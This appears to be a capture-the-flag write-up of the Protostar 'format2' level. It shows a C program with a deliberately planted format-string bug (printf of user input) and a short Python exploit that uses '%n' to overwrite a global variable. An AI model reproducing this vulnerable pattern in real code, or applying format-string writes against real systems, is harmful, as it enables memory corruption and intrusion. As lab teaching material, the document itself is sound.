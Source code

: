 # Format Two

## Description

This level moves on from format1 and shows how specific values can be written in memory.

This level is at /opt/protostar/bin/format2

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Exploit script

```python
payload = "%64c" + "%6$n" + "\xe4\x96\x04\x08"
print(payload)
```

<p align="center">
    <img src="./done.png">
</p>
